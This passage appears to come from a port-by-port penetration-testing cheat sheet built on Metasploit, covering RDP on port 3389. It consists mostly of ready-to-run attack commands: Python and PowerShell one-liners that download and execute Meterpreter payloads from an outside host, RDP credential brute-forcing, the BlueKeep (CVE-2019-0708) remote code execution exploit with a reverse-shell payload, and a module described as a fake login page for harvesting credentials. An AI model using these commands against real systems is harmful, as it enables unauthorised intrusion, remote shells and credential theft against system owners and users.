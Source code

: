 ### Meterpreter Tip:
After access, upload and execute a Meterpreter payload:
```bash
python -c "import urllib2; exec(urllib2.urlopen('http://[IP]/meterpreter.py').read())"
```

---

## Port 3389 - RDP
**Service**: Remote Desktop Protocol  
**Common services**: Windows Terminal Services, xrdp, FreeRDP

### Auxiliary: RDP Login Scanner
```bash
use auxiliary/scanner/rdp/rdp_login
set RHOSTS [IP]
set USERPASS_FILE /path/to/wordlist.txt
set VERBOSE true
```
**Purpose**: Bruteforces user credentials.

### Auxiliary: BlueKeep Scanner (CVE-2019-0708)
```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS [IP]
set VERBOSE true
```
**Purpose**: Checks for the critical BlueKeep vulnerability.

### Exploit: BlueKeep (CVE-2019-0708)
```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS [IP]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST [Your IP]
set LPORT [Port]
```
**Purpose**: Exploits BlueKeep vulnerability for RCE.

### Additional Exploit: RDP Shadowing
```bash
use auxiliary/server/rdp/rdp_web_login
set SRVHOST [Your IP]
set SRVPORT 8080
```
**Purpose**: Creates a fake RDP login page to capture credentials.

### Meterpreter Tip:
After RDP access, execute Meterpreter from command prompt:
```bash
cmd /c "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://[IP]/meterpreter.ps1')"
```

---